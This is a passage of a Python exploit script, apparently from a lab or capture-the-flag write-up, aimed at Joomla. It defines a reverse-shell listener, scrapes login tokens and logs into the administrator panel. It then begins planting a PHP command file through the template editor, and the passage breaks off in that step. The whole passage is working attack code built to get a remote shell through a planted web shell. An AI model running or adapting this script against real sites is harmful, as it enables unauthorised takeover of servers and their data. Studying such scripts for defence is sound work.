 ```py

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

#First we need to get the correct values to be passed on the log in request
def getValues(rhost):
    global return_value
    global other
    token_url = 'http://' + rhost + ':80/administrator/index.php'
    # Make the request to get return value
    token_page = r.get(token_url, proxies=proxies)
    # Get the index of the page, search for hidden in it
    index = token_page.text.find("hidden\"")
    # Get only the return value in it
    return_value = token_page.text[index:index+149].split('"')[-1]
    other = token_page.text[index:index+214].split('"')[-1]
    print("[+] Successsss to get the login values [+]")

# Now, we need to log on the Joomla
def login(rhost,username,password,return_value,other):
    url = "http://%s:80/administrator/index.php" %rhost
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "Connection": "close", "Referer": "http://%s/administrator/index.php" %rhost, "Upgrade-Insecure-Requests": "1"}
    data = {"username": "%s" %username , "passwd": "%s" %password, "option": "com_login", "task": "login", "return": "%s" %return_value, "%s" %other: "1"} 
    login = r.post(url, cookies=r.cookies, data=data, headers=headers, proxies=proxies)
    if "member function" in login.text:
        print("[+] Login Succeeesss! [+]")
        global upsecurity
        # Get the UPSECURITY
        token_url = 'http://' + rhost + ':80/administrator/index.php'
        # Make the request to get return value
        token_page = r.get(token_url, proxies=proxies)
        index = token_page.text.find("/administrator/index.php")
        upsecurity = token_page.text[index:index+300].split(';')[2].split('=')[0]
        print("[+] Security Token Got!!!! [+]")
    else:
        print("[+] Login Failed! Verify your Burp! [+]")
        exit
    
def uploadCmd(rhost,upsecurity):
    # Get on the template protostar page
    url = "http://%s:80/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==" %rhost
    r.get(url, proxies=proxies, cookies=r.cookies)
    # Let's create our comand php
    url = "http://%s:80/administrator/index.php?option=com_templates&task=template.createFile&id=506&file=aG9tZQ" %rhost
    data = {"name": "cmd", "type": "php", "address": '', "%s" %upsecurity: "1"}
```